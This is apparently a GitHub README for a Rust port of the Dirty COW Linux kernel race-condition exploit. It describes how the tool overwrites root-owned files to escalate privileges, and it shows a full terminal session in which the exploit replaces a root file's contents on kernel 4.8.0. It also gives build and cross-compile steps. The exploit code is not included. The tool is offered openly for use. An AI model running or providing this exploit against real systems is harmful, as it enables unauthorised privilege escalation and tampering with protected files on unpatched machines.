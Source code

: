 
# dirtyc0w exploit in rust 

This is an rust implementation of the dirtyc0w exploit for linux. The exploit
boils down to a race condition in the linux kernel and is described below:

> A race condition was found in the way the Linux kernel's memory subsystem
> handled the copy-on-write (COW) breakage of private read-only memory
> mappings. All the information we have so far is included in this page.

See [this article](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails) for more information.

## What does it do?

This exploit can be used to overwrite the contents of files, owned by another
user such as `root`, even when your user account doesn't have sufficient
privileges to do so.

This can be used to do privilege escalation in some systems by overwritting root-owned files.

## Example usage

```bash
$ uname -a
Linux ubuntu-linux-20-04-desktop 4.8.0-040800-generic #201610022031 SMP Mon Oct 3 01:51:19 UTC 2016 aarch64 aarch64 aarch64 GNU/Linux
$ ls -l
total 4580
-rwxrw-r-- 1 parallels parallels 4677376 Apr  8 12:06 dirtycow-rust
-r-----r-- 1 root      root           10 Apr  8 12:24 root_owned_file
-rw-rw-r-- 1 parallels parallels      10 Apr  8 12:07 user_owned_file
$ id
uid=1000(parallels) gid=1000(parallels) groups=1000(parallels),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
$ cat user_owned_file 
user data
$ cat root_owned_file 
root data
$ ./dirtycow-rust 
Usage: ./dirtycow-rust <INFILE> <OUTFILE>
$ ./dirtycow-rust user_owned_file root_owned_file 
Starting dirtyc0w exploit...
Preparing to overwrite contents of file 'root_owned_file' with contents from file 'user_owned_file'
Created copy-on-write memory mapping for outfile at address 0xffff7c0b5000
Starting thread to write contents of infile to memory
Starting thread to spam 'madvise' calls
Waiting for threads to finish
Reading contents of infile to buffer
Opening '/proc/self/mem' as read/write
Attempting to write data to start of memory map file many times
Finished spamming advise calls
Finished writing data to '/proc/self/mem'
Finished
$ cat root_owned_file 
user data
```

The above shows the exploit running in linux kernel version 4.8.0 and
overwriting a file named `root_owned_file` with the contents of the file
`user_owned_file` even though the current user doesn't have sufficient
permissions to do this.

## How to compile

Start by installing the rust tooling using the directions found [here](https://www.rust-lang.org/tools/install).
Then to compile for the same architecture as your host device you can simply run the command:

```bash
cargo build
```

To cross-compile to run on a target having different architecture you can
install the tool [cross](https://github.com/cross-rs/cross) and then run as
follows:

```bash
$ cross build --target=aarch64-unknown-linux-gnu
```

(Replace `aarch64-unknown-linux-gnu` with your desired target architecture)


## References

- [C language implementation](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)

